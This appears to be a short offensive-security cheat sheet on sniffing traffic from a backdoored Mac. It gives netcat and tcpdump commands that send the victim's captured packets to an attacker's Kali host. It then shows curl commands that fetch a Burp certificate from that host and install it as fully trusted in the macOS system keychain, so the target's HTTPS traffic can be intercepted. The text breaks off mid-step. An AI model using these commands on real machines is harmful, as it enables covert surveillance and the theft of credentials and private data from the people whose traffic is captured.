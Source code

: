 ## Netcat & TCPDump

### Data in file

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	- nc -l -p 7777 | tee /tmp/sniffed_output.pcap (on kali, without -p for mac)
	- /usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)

### Data in real time

On kali:

	- mkfifo /tmp/wiretap
	- nc -l -p 9999 > /tmp/wiretap
	- wireshark -k -i /tmp/wiretap

On mac:

	- /usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Sniffing https traffic (BURP)

Download BURP Pro and execute file (optional):

	- sudo bash /path/to/file

Open and configure proxy on burpsuite (port and ip).

On backdoored mac:

	- curl -s --insecure --proxy http://192.168.0.110:8080 http://burp/cert -o /tmp/burp.der (download certificate)

In the above command, curl will silently (-s) download the certificate from our Kali machine. The --proxy argument is required because we're instructing curl to use the newly configured Burp listener to fetch the certificate; This certificate isn't trusted by curl (or any web browser) by default, so the --insecure argument is required to ignore warnings in the output. Finally, the Burp certificate is saved (-o) to the /tmp directory with the file name burp.der. The .der file extension is merely the certificate's default file format and shouldn't be changed.

	- security add-trusted-cert -k /Library/Keychains/System.keychain -d /tmp/burp.der (add certificate to mac keychain)

Security will add (add-trusted-cert) and fully trust the certificate (-d /tmp/burp.der) into the macOS primary system Keychain (-k). All we have to do now is configure macOS to send us all of the target's web traffic.

List network services (optional):

	- /usr/sbin/networksetup -listallnetworkservices
	- /usr/sbin/networksetup -getwebproxy "Wi-Fi"
	- /usr/sbin/networksetup -getsecurewebproxy "Wi-Fi"

Active the certicate for http and https requests:
